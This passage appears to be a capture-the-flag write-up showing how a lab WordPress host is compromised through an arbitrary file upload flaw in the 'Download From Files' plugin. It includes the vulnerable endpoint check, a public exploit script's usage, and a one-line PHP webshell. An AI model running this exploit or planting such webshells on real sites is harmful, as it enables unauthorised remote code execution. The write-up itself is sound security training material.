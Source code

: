 The system is relatively well hardened. Many of the old tricks such as
modifying a theme or uploading a plugin as disabled from both users.

However, looking at the installed plugins, “Download from files” sounds
interesting. Goolging for it returns first the official plugin page, but
second a PacketStorm [page on shell
upload](https://packetstormsecurity.com/files/164125/WordPress-Download-From-
Files-1.48-Shell-Upload.html):

![image-20220216115225263](https://0xdfimages.gitlab.io/img/image-20220216115225263.png)

#### Script Analysis

The script builds a url which for Phoenix will be:

    
    
    https://phoenix.htb/wp-admin/admin-ajax.php?action=download_from_files_617_fileupload
    

It tests if the instance if vulnerable using by looking for the string
“Sikeres” in the result. This instance should be vulnerable by that check:

    
    
    oxdf@hacky$ curl -sk https://phoenix.htb/wp-admin/admin-ajax.php?action=download_from_files_617_fileupload | grep Sikeres
    {"status":1,"message":"Sikeres a f\u00e1jl(ok) m\u00e1sol\u00e1sa."}
    

The rest is a simple POST request with the file.

#### Run Script

The help menu gives the arguments to pass:

    
    
    oxdf@hacky$ python download_upload.py 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Usage: python3 exploit.py [target url] [php file]
    Ex: python3 exploit.py https://example.com ./shell.(php4/phtml)
    

It also says to use a shell ending in `.php4` or `.phtml`. I’ll grab a simple
webshell and save it as `cmd.php4`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

When I run `python download_upload.py https://phoenix.htb cmd.php4`, it
crashes out with all kinds of SSL/TLS errors. I’ll add `verify=False` to each
of the `requests` calls to ignore the self-signed certificate. I’ll also add
the following at the top just under the imports:

    
    
    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    